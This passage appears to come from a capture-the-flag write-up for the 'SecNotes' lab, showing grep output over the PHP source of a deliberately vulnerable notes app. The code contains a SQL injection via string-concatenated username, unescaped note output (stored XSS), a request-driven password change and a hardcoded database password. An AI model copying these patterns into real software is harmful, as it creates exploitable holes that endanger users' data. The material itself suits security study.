db.php-define('DB_PASSWORD', 'q8N#9Eos%JinE57tke72');
db.php-//define('DB_USERNAME', 'root');
db.php-//define('DB_PASSWORD', 'qwer1234QWER!@#$');
db.php-define('DB_NAME', 'secnotes');
db.php-
db.php:/* Attempt to connect to MySQL database */
db.php:$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
db.php-
db.php-// Check connection
db.php-if($link === false){
db.php:    die("ERROR: Could not connect. " . mysqli_connect_error());
db.php-}
db.php-?>
--
home.php-}
home.php-unset($_SESSION['home-error']);
home.php-
home.php-// if delete, delete post
home.php-if ($_REQUEST['action'] = 'delete' and isset($_REQUEST["id"])) {
home.php:	$sql = "DELETE FROM posts WHERE username = ? and id = ?";
home.php:	if($stmt = mysqli_prepare($link, $sql)) {
home.php:		mysqli_stmt_bind_param($stmt, "ss", $param_username, $param_id);
home.php-		$param_username = $username;
home.php-		$param_id = $_REQUEST['id'];
home.php:		mysqli_stmt_execute($stmt);
home.php:		if(mysqli_stmt_execute($stmt)){
home.php-			$general_error = "Note deleted.";
home.php-		} else {
home.php-			$general_error = $link->error;
home.php-		}
home.php-	} else {
--
home.php-    <div class="page-header">
home.php-        <h1>Viewing Secure Notes for <b><?php echo htmlspecialchars($username); ?></b></h1>
home.php-    </div>
home.php-	<div>
home.php-	<?php
home.php:	$sql = "SELECT id, title, note, created_at FROM posts WHERE username = '" . $username . "'";
home.php:	$res = mysqli_query($link, $sql);
home.php:	if (mysqli_num_rows($res) > 0) {
home.php:		while ($row = mysqli_fetch_row($res)) {
home.php-			echo '<button class="accordion"><strong>' . $row[1] . '</strong>  <small>[' . $row[3] . ']</small></button>';
home.php-			echo '<a href=/home.php?action=delete&id=' . $row[0] . '" class="btn btn-danger"><strong>X</strong></a>';
home.php-			echo '<div class="panel center-block text-left" style="width: 78%;"><pre>' . $row[2] . '</pre></div>';
home.php-		}
home.php-	} else {
--
login.php-    }
login.php-
login.php-    // Validate credentials
login.php-    if(empty($username_err) && empty($password_err)){
login.php-        // Prepare a select statement
login.php:        $sql = "SELECT username, password FROM users WHERE username = ?";
login.php-
login.php:        if($stmt = mysqli_prepare($link, $sql)){
login.php-            // Bind variables to the prepared statement as parameters
login.php:            mysqli_stmt_bind_param($stmt, "s", $param_username);
login.php-
login.php-            // Set parameters
login.php-            $param_username = $username;
login.php-
login.php-            // Attempt to execute the prepared statement
login.php:            if(mysqli_stmt_execute($stmt)){
login.php-                // Store result
login.php:                mysqli_stmt_store_result($stmt);
login.php-
login.php-                // Check if username exists, if yes then verify password
login.php:                if(mysqli_stmt_num_rows($stmt) == 1){
login.php-                    // Bind result variables
login.php:                    mysqli_stmt_bind_result($stmt, $username, $hashed_password);
login.php:                    if(mysqli_stmt_fetch($stmt)){
login.php-                        if(password_verify($password, $hashed_password)){
login.php-                            /* Password is correct, so start a new session and
login.php-                            save the username to the session */
login.php-                            session_start();
login.php-                            $_SESSION['username'] = $username;
--
login.php-                echo "Oops! Something went wrong. Please try again later.";
login.php-            }
login.php-        }
login.php-
login.php-        // Close statement
login.php:        mysqli_stmt_close($stmt);
login.php-    }
login.php-
login.php-    // Close connection
login.php:    mysqli_close($link);
login.php-}
login.php-?>
login.php-
login.php-<!DOCTYPE html>
login.php-<html lang="en">
--
register.php-    // Validate username
register.php-    if(empty(trim($_POST["username"]))){
register.php-        $username_err = "Please enter a username.";
register.php-    } else{
register.php-        // Prepare a select statement
register.php:        $sql = "SELECT id FROM users WHERE username = ?";
register.php-
register.php:        if($stmt = mysqli_prepare($link, $sql)){
register.php-            // Bind variables to the prepared statement as parameters
register.php:            mysqli_stmt_bind_param($stmt, "s", $param_username);
register.php-
register.php-            // Set parameters
register.php-            $param_username = trim($_POST["username"]);
register.php-
register.php-            // Attempt to execute the prepared statement
register.php:            if(mysqli_stmt_execute($stmt)){
register.php-                /* store result */
register.php:                mysqli_stmt_store_result($stmt);
register.php-
register.php:                if(mysqli_stmt_num_rows($stmt) == 1){
register.php-                    $username_err = "This username is already taken.";
register.php-                } else{
register.php-                    $username = trim($_POST["username"]);
register.php-                }
register.php-            } else{
register.php-                echo "Oops! Something went wrong. Please try again later.";
register.php-            }
register.php-        }
register.php-
register.php-        // Close statement
register.php:        mysqli_stmt_close($stmt);
register.php-    }
register.php-
register.php-    // Validate password
register.php-    if(empty(trim($_POST['password']))){
register.php-        $password_err = "Please enter a password.";
--
register.php-    }
register.php-
register.php-    // Check input errors before inserting in database
register.php-    if(empty($username_err) && empty($password_err) && empty($confirm_password_err)){
register.php-        // Prepare an insert statement
register.php:        $sql = "INSERT INTO users (username, password) VALUES (?, ?)";
register.php-
register.php:       if($stmt = mysqli_prepare($link, $sql)){
register.php-            // Bind variables to the prepared statement as parameters
register.php:            mysqli_stmt_bind_param($stmt, "ss", $param_username, $param_password);
register.php-
register.php-            // Set parameters
register.php-            $param_username = $username;
register.php-            $param_password = password_hash($password, PASSWORD_DEFAULT); // Creates a password hash
register.php-
register.php-            // Attempt to execute the prepared statement
register.php:            if(mysqli_stmt_execute($stmt)){
register.php-                // Redirect to login page
register.php-                header("location: login.php");
register.php-            } else{
register.php-                echo "Something went wrong. Please try again later.";
register.php-            }
register.php-        }
register.php-
register.php-        // Close statement
register.php:        mysqli_stmt_close($stmt);
register.php-    }
register.php-
register.php-    // Close connection
register.php:    mysqli_close($link);
register.php-}
register.php-?>
register.php-
register.php-<!DOCTYPE html>
register.php-<html lang="en">
--
submit_note.php-    // Submit post
submit_note.php-    if(empty($title_err) && empty($note_err)){
submit_note.php-		require_once 'db.php';
submit_note.php-
submit_note.php-		// check that the user doesn't have 3 posts
submit_note.php:		$sql = "SELECT note FROM posts WHERE username = ?";
submit_note.php:		if($stmt = mysqli_prepare($link, $sql)) {
submit_note.php:			mysqli_stmt_bind_param($stmt, "s", $param_username);
submit_note.php-			$param_username = $username;
submit_note.php:			if(mysqli_stmt_execute($stmt)){
submit_note.php:				mysqli_stmt_store_result($stmt);
submit_note.php:				if(mysqli_stmt_num_rows($stmt) < 3){
submit_note.php:					mysqli_stmt_close($stmt);
submit_note.php-
submit_note.php-					// add note
submit_note.php:					$sql = "INSERT INTO posts (username, title, note) VALUES (?, ?, ?)";
submit_note.php:					if($stmt = mysqli_prepare($link, $sql)) {
submit_note.php:						mysqli_stmt_bind_param($stmt, "sss", $param_username, $param_title, $param_post);
submit_note.php-						$param_title = $_REQUEST['title'];
submit_note.php-						$param_post = $_REQUEST['note'];
submit_note.php:						if(mysqli_stmt_execute($stmt)){
submit_note.php-							$_SESSION['home-error'] = "Note Created";
submit_note.php-						    header("location: home.php");
submit_note.php-						} else {
submit_note.php:							mysqli_stmt_close($stmt);
submit_note.php-							$general_error = $link->error;
submit_note.php-						}
submit_note.php:						mysqli_stmt_close($stmt);
submit_note.php-
submit_note.php-					} else {
submit_note.php-						$general_error = $link->error;
submit_note.php-					}
submit_note.php-				} else {
submit_note.php:					mysqli_stmt_close($stmt);
submit_note.php-					$general_error = 'User already has 3 notes. Go <a href="/home.php">home</a> and delete one.';
submit_note.php-				}
submit_note.php-			} else {
submit_note.php-			$general_error = $link->error;
submit_note.php-			}
submit_note.php-		}
submit_note.php-
submit_note.php:		mysqli_close($link);
submit_note.php-	}
submit_note.php-}
submit_note.php-?>
submit_note.php-
submit_note.php-<!DOCTYPE html>
root@kali:~/secnotes/wwwroot#
```

```sh
root@kali:~/secnotes/wwwroot# grep -B5 -A5 -i '$sql' *.php
change_pass.php-    }
change_pass.php-
change_pass.php-    // Check input errors before inserting in database
change_pass.php-    if(empty($password_err) && empty($confirm_password_err)){
change_pass.php-        // Prepare an insert statement
change_pass.php:        $sql = "UPDATE users SET password = ? WHERE username = ?";
change_pass.php-
change_pass.php:        if($stmt = mysqli_prepare($link, $sql)){
change_pass.php-            // Bind variables to the prepared statement as parameters
change_pass.php-            mysqli_stmt_bind_param($stmt, "ss", $param_password, $param_username);
change_pass.php-
change_pass.php-            // Set parameters
change_pass.php-            $param_username = $username;
--
home.php-}
home.php-unset($_SESSION['home-error']);
home.php-
home.php-// if delete, delete post
home.php-if ($_REQUEST['action'] = 'delete' and isset($_REQUEST["id"])) {
home.php:	$sql = "DELETE FROM posts WHERE username = ? and id = ?";
home.php:	if($stmt = mysqli_prepare($link, $sql)) {
home.php-		mysqli_stmt_bind_param($stmt, "ss", $param_username, $param_id);
home.php-		$param_username = $username;
home.php-		$param_id = $_REQUEST['id'];
home.php-		mysqli_stmt_execute($stmt);
home.php-		if(mysqli_stmt_execute($stmt)){
--
home.php-    <div class="page-header">
home.php-        <h1>Viewing Secure Notes for <b><?php echo htmlspecialchars($username); ?></b></h1>
home.php-    </div>
home.php-	<div>
home.php-	<?php
home.php:	$sql = "SELECT id, title, note, created_at FROM posts WHERE username = '" . $username . "'";
home.php:	$res = mysqli_query($link, $sql);
home.php-	if (mysqli_num_rows($res) > 0) {
home.php-		while ($row = mysqli_fetch_row($res)) {
home.php-			echo '<button class="accordion"><strong>' . $row[1] . '</strong>  <small>[' . $row[3] . ']</small></button>';
home.php-			echo '<a href=/home.php?action=delete&id=' . $row[0] . '" class="btn btn-danger"><strong>X</strong></a>';
home.php-			echo '<div class="panel center-block text-left" style="width: 78%;"><pre>' . $row[2] . '</pre></div>';
--
login.php-    }
login.php-
login.php-    // Validate credentials
login.php-    if(empty($username_err) && empty($password_err)){
login.php-        // Prepare a select statement
login.php:        $sql = "SELECT username, password FROM users WHERE username = ?";
login.php-
login.php:        if($stmt = mysqli_prepare($link, $sql)){
login.php-            // Bind variables to the prepared statement as parameters
login.php-            mysqli_stmt_bind_param($stmt, "s", $param_username);
login.php-
login.php-            // Set parameters
login.php-            $param_username = $username;
--
register.php-    // Validate username
register.php-    if(empty(trim($_POST["username"]))){
register.php-        $username_err = "Please enter a username.";
register.php-    } else{
register.php-        // Prepare a select statement
register.php:        $sql = "SELECT id FROM users WHERE username = ?";
register.php-
register.php:        if($stmt = mysqli_prepare($link, $sql)){
register.php-            // Bind variables to the prepared statement as parameters
register.php-            mysqli_stmt_bind_param($stmt, "s", $param_username);
register.php-
register.php-            // Set parameters
register.php-            $param_username = trim($_POST["username"]);
--
register.php-    }
register.php-
register.php-    // Check input errors before inserting in database
register.php-    if(empty($username_err) && empty($password_err) && empty($confirm_password_err)){
register.php-        // Prepare an insert statement
register.php:        $sql = "INSERT INTO users (username, password) VALUES (?, ?)";
register.php-
register.php:       if($stmt = mysqli_prepare($link, $sql)){
register.php-            // Bind variables to the prepared statement as parameters
register.php-            mysqli_stmt_bind_param($stmt, "ss", $param_username, $param_password);
register.php-
register.php-            // Set parameters
register.php-            $param_username = $username;
--
submit_note.php-    // Submit post
submit_note.php-    if(empty($title_err) && empty($note_err)){
submit_note.php-		require_once 'db.php';
submit_note.php-
submit_note.php-		// check that the user doesn't have 3 posts
submit_note.php:		$sql = "SELECT note FROM posts WHERE username = ?";
submit_note.php:		if($stmt = mysqli_prepare($link, $sql)) {
submit_note.php-			mysqli_stmt_bind_param($stmt, "s", $param_username);
submit_note.php-			$param_username = $username;
submit_note.php-			if(mysqli_stmt_execute($stmt)){
submit_note.php-				mysqli_stmt_store_result($stmt);
submit_note.php-				if(mysqli_stmt_num_rows($stmt) < 3){
submit_note.php-					mysqli_stmt_close($stmt);
submit_note.php-
submit_note.php-					// add note
submit_note.php:					$sql = "INSERT INTO posts (username, title, note) VALUES (?, ?, ?)";
submit_note.php:					if($stmt = mysqli_prepare($link, $sql)) {
submit_note.php-						mysqli_stmt_bind_param($stmt, "sss", $param_username, $param_title, $param_post);
submit_note.php-						$param_title = $_REQUEST['title'];
submit_note.php-						$param_post = $_REQUEST['note'];
submit_note.php-						if(mysqli_stmt_execute($stmt)){
submit_note.php-							$_SESSION['home-error'] = "Note Created";
root@kali:~/secnotes/wwwroot#
```

```sh
root@kali:~/secnotes/wwwroot# grep -B5 -A5 -i '\$username =' *.php
auth.php-if(!isset($_SESSION['username']) || empty($_SESSION['username'])){
auth.php-  header("location: login.php");
auth.php-  exit;
auth.php-}
auth.php-
auth.php:$username = $_SESSION['username'];
auth.php-?>
--
login.php-// Include config file
login.php-$includes = 1;
login.php-require_once 'db.php';
login.php-
login.php-// Define variables and initialize with empty values
login.php:$username = $password = "";
login.php-$username_err = $password_err = "";
login.php-
login.php-// Processing form data when form is submitted
login.php-if($_SERVER["REQUEST_METHOD"] == "POST"){
login.php-
login.php-    // Check if username is empty
login.php-    if(empty(trim($_POST["username"]))){
login.php-        $username_err = 'Please enter username.';
login.php-    } else{
login.php:        $username = trim($_POST["username"]);
login.php-    }
login.php-
login.php-    // Check if password is empty
login.php-    if(empty(trim($_POST['password']))){
login.php-        $password_err = 'Please enter your password.';
--
register.php-// Include config file
register.php-$includes = 1;
register.php-require_once 'db.php';
register.php-
register.php-// Define variables and initialize with empty values
register.php:$username = $password = $confirm_password = "";
register.php-$username_err = $password_err = $confirm_password_err = "";
register.php-
register.php-// Processing form data when form is submitted
register.php-if($_SERVER["REQUEST_METHOD"] == "POST"){
register.php-
--
register.php-                mysqli_stmt_store_result($stmt);
register.php-
register.php-                if(mysqli_stmt_num_rows($stmt) == 1){
register.php-                    $username_err = "This username is already taken.";
register.php-                } else{
register.php:                    $username = trim($_POST["username"]);
register.php-                }
register.php-            } else{
register.php-                echo "Oops! Something went wrong. Please try again later.";
register.php-            }
register.php-        }
root@kali:~/secnotes/wwwroot#
```

```sh
root@kali:~/secnotes/wwwroot# grep -B5 -A5 -i '_SESSION' *.php
auth.php-if ($includes != 1) {
auth.php-	die("ERROR: Should not access directly.");
auth.php-}
auth.php-
auth.php-// Initialize the session
auth.php:if (session_status() == PHP_SESSION_NONE) {
auth.php-    session_start();
auth.php-}
auth.php-
auth.php-// If session variable is not set it will redirect to login page
auth.php:if(!isset($_SESSION['username']) || empty($_SESSION['username'])){
auth.php-  header("location: login.php");
auth.php-  exit;
auth.php-}
auth.php-
auth.php:$username = $_SESSION['username'];
auth.php-?>
--
change_pass.php-	if($_REQUEST["submit"] == "cancel"){
change_pass.php-		header("location: home.php");
change_pass.php-	}
change_pass.php-
change_pass.php-	if($_REQUEST['submit'] !== 'submit'){
change_pass.php:		$_SESSION['home-error'] = "Hacker Detected!";
change_pass.php-		header("location: home.php");
change_pass.php-	}
change_pass.php-
change_pass.php-    // Validate password
change_pass.php-    if(empty(trim($_REQUEST['password']))){
--
change_pass.php-            $param_password = password_hash($password, PASSWORD_DEFAULT); // Creates a password hash
change_pass.php-
change_pass.php-            // Attempt to execute the prepared statement
change_pass.php-            if(mysqli_stmt_execute($stmt)){
change_pass.php-                // Redirect to login page
change_pass.php:				$_SESSION['home-error'] = "Password updated.";
change_pass.php-                header("location: home.php");
change_pass.php-            } else{
change_pass.php-                echo "Something went wrong. Please try again later.";
change_pass.php-            }
change_pass.php-        }
--
contact.php-
contact.php-    // Save Message to file, the direct to home with message sent message
contact.php-	$path = 'C:\\Users\\tyler\\secnotes_contacts\\';
contact.php-	$filename = sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT'] . time() . mt_rand()) . ".txt";
contact.php-	file_put_contents($path . $filename, $message);
contact.php:	$_SESSION['home-error'] = 'Message Sent';
contact.php-	header("location: home.php");
contact.php-}
contact.php-?>
contact.php-
contact.php-<!DOCTYPE html>
--
home.php-<?php
home.php-$includes = 1;
home.php-require_once 'auth.php';
home.php-require_once 'db.php';
home.php-
home.php:if (isset($_SESSION['home-error'])) {
home.php:	$general_error = $_SESSION['home-error'];
home.php-} else {
home.php-	$general_error = "Due to GDPR, all users must delete any notes that contain Personally Identifable Information (PII)<br/>Please contact <strong>tyler@secnotes.htb</strong> using the contact link below with any questions.";
home.php-}
home.php:unset($_SESSION['home-error']);
home.php-
home.php-// if delete, delete post
home.php-if ($_REQUEST['action'] = 'delete' and isset($_REQUEST["id"])) {
home.php-	$sql = "DELETE FROM posts WHERE username = ? and id = ?";
home.php-	if($stmt = mysqli_prepare($link, $sql)) {
--
home.php-			$general_error = $link->error;
home.php-		}
home.php-	} else {
home.php-		$general_error = $link->error;
home.php-	}
home.php:	$_SESSION['home-error'] = $general_error;
home.php-	header("location: home.php");
home.php-}
home.php-?>
home.php-
home.php-<!DOCTYPE html>
--
login.php-                    if(mysqli_stmt_fetch($stmt)){
login.php-                        if(password_verify($password, $hashed_password)){
login.php-                            /* Password is correct, so start a new session and
login.php-                            save the username to the session */
login.php-                            session_start();
login.php:                            $_SESSION['username'] = $username;
login.php-                            header("location: home.php");
login.php-                        } else{
login.php-                            // Display an error message if password is not valid
login.php-                            $password_err = 'The password you entered was not valid.';
login.php-                        }
--
logout.php-<?php
logout.php-// Initialize the session
logout.php-session_start();
logout.php-
logout.php-// Unset all of the session variables
logout.php:$_SESSION = array();
logout.php-
logout.php-// Destroy the session.
logout.php-session_destroy();
logout.php-
logout.php-// Redirect to login page
--
submit_note.php-					if($stmt = mysqli_prepare($link, $sql)) {
submit_note.php-						mysqli_stmt_bind_param($stmt, "sss", $param_username, $param_title, $param_post);
submit_note.php-						$param_title = $_REQUEST['title'];
submit_note.php-						$param_post = $_REQUEST['note'];
submit_note.php-						if(mysqli_stmt_execute($stmt)){
submit_note.php:							$_SESSION['home-error'] = "Note Created";
submit_note.php-						    header("location: home.php");
submit_note.php-						} else {
submit_note.php-							mysqli_stmt_close($stmt);
submit_note.php-							$general_error = $link->error;
submit_note.php-						}
root@kali:~/secnotes/wwwroot#
```

```sh
root@kali:~/secnotes/wwwroot# grep -B5 -A5 -i "_SESSION\['user" *.php
auth.php-if (session_status() == PHP_SESSION_NONE) {
auth.php-    session_start();
auth.php-}
auth.php-
auth.php-// If session variable is not set it will redirect to login page
auth.php:if(!isset($_SESSION['username']) || empty($_SESSION['username'])){
auth.php-  header("location: login.php");
auth.php-  exit;
auth.php-}
auth.php-
auth.php:$username = $_SESSION['username'];
auth.php-?>
--
login.php-                    if(mysqli_stmt_fetch($stmt)){
login.php-                        if(password_verify($password, $hashed_password)){
login.php-                            /* Password is correct, so start a new session and
login.php-                            save the username to the session */
login.php-                            session_start();
login.php:                            $_SESSION['username'] = $username;
login.php-                            header("location: home.php");
login.php-                        } else{
login.php-                            // Display an error message if password is not valid
login.php-                            $password_err = 'The password you entered was not valid.';
login.php-                        }
root@kali:~/secnotes/wwwroot#
```